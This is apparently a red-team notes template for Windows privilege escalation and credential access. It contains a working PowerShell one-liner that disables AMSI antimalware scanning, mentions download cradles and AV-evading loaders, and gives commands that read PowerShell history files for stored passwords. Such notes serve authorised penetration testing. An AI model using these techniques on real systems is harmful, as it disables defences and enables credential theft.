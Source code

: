 ```ad-note
*Screenshot*
___

___
```

> At this point if you have not found anything of interest, try running *automated tools*.

*PowerUp.ps1* > *SeatBelt.exe* > *WinPeas.exe*

```ad-note
title: Automated Tools

Amsi Bypass for PowerUp.ps1:

~~~powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
~~~

- Now you can use a download cradle to import PowerUp and `invoke-allchecks`.
- For SeatBelt.exe you can use any .NetLoader that bypasses AV. [NetRunners Project](https://github.com/Hacker-Hermanos/NetRunners/tree/main)

Paste screenshots for interesting findings here:

___

___
```

Remember to run `ps` from your C2 to find valuable information like processes with interesting tokens for impersonation once you escalate privileges.

```ad-check
title:Process Information
~~~powershell
ps
~~~

```

## Credential Access

> Now that you have a high level understanding of the environment, move onto manual credential harvesting.

```ad-note
title: Credential Access

Source: [Password Hunting – Windows Privilege Escalation](https://juggernaut-sec.com/password-hunting/)

*Powershell History File*

~~~powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
~~~

> OR

~~~powershell
cat (Get-PSReadlineOption).HistorySavePath
~~~

*Screenshot*
```